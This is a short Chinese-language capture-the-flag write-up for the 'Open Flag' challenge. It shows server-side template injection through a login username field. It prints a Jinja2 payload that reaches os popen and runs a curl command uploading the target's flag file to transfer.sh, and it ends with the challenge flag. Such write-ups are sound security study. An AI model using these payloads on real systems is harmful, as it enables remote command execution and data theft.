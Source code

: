 # Open Flag

---

访问题目中给出的链接,发现是一个登录页面
<img src="images/login.png" alt="Open Flag" style="zoom:80%;" />
随便输入一个用户名和密码直接可以登录,提示我们flag文件的路径是`./flag.jpg`.
F12看源码发现注释中会显示刚才登录所用的用户名,猜测存在SSTI漏洞,直接用注入代码作为用户名登录即可
<img src="images/image-20211119203608270.jpg" alt="image-20211119203608270" style="zoom:70%;" />

使用下列代码作为用户名登录,查看当前已加载的模块;删掉HTML的注释标记`<!--`,找到`os._wrap_close`模块所在的索引为132,借助于`popen`函数可以直接执行系统命令

```python
{{"".__class__.__bases__[0].__subclasses__()}}
```

![image-20211119212248483](images/image-20211119212248483.png)

使用`curl`命令将`flag.jpg`文件上传至[transfer.sh](http://transfer.sh/)

```python
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('curl --upload-file ./flag.jpg http://transfer.sh/flag.jpg').read()}}
```
在HTML注释中找到文件上传后的URL`http://transfer.sh/bDGBlw/flag.jpg`
![image-20211119204635015](images/image-20211119204635015.png)

<img src="images/flag.jpg" alt="Open Flag" style="zoom:80%;" />

**flag:**`TamilCTF{SsTi_Is_VeRy_DaNgErOuS}`